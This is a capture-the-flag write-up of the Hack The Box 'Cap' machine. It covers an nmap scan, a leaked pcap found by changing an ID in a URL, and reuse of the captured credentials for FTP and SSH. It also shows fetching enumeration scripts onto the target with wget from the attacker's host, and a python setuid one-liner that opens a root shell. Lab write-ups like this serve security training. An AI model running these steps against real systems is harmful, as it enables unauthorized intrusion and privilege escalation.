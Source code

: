 ```yaml
---
title: 'HTB Cap Writeup'
date: 2025-06-13
permalink: /posts/2025/06/HTB_Cap_Writeup/
tags:
  - HTB
  - writeup
  - easy
---
```


A writeup of the Hack The Box machine "Cap" with easy difficulty


HTB_Cap
======

Hello and welcome to this write up of the Hack the Box machine: Cap difficulty easy

<img src='/images/HTB_Cap/afbeelding.png'>

I start with a Nmap scan to see what ports are open and what services are running: `nmap -sV -sC 10.10.10.245`

<img src='/images/HTB_Cap/afbeelding 1.png'>

We see a ftp server with version 3.0.3, SSH and a http web page running on Gunicorn.

Going to this web page show us a dashboard with a page where we can download snapshot, IP config and Network status. 

<img src='/images/HTB_Cap/afbeelding 2.png'>

Lets see what happens when we click on Download: It downloads an empty pcap file. 

When downloading the file the url changed from /data/4 > data/6

When you change the number, you get scan results from someone else, for example /data/1:

<img src='/images/HTB_Cap/afbeelding 3.png'>

When downloading this pcap file, there is another source IP but nothing more interesting. Other numbers have no results except for 8. But this pcap file also contains no useful information. 

Also I noticed on the Network status page that port 33102 and 45094 are in use.

While exploring numbers behind the /data/ I forgot that I missed 0.

And yeah… pcap 0 contains sensitive information. A username and password can be seen.

Now we need to discover for what service this user is.

Earlier, we discovered that port 21 (ftp) is in use. Trying to login to this ftp server with the user and password:

<img src='/images/HTB_Cap/afbeelding 4.png'>

Yes, successful!

The user and password also works with SSH!

The next step is to run the privilege escalation script [LinEnum.sh](https://github.com/rebootuser/LinEnum.git)

To copy this file to the target machine, start a python server on your machine in the directory where the [LinEnum.sh](http://LinEnum.sh) file is located: `python3 -m http.server 8000` 

Now, on the target machine, download the script with: `wget http://10.10.14.1:8000/linenum.sh`  

To run this script, make the file executable with: `chmod +x LinEnum.sh` 

To run the file: `./LinEnum.sh`

Scanning through the results gets me nothing much what I noticed to be useful.

Also, I discovered that the nathan user is not in the sudoers file. When using the `sudo su -` command, you get this message.

Let’s try another privilege escalation: [linPEAS](https://github.com/peass-ng/PEASS-ng)

To download the script: 
`wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh` 

And execute the previous commands again on this script file.

Scanning through the results, in the File with capabilities section of the results: `/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip` 

<img src='/images/HTB_Cap/afbeelding 5.png'>

So the binary path /usr/bin/python3.8 has special capabilities that can be used to obtain root privileges. 

We can become root with the following command: 

`/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

And yess we have become root!

<img src='/images/HTB_Cap/afbeelding 6.png'>

The root flag is present in the /root directory.

<img src='/images/HTB_Cap/afbeelding 7.png'>

## Conclusion

Thank you for reading this writeup. Stay safe!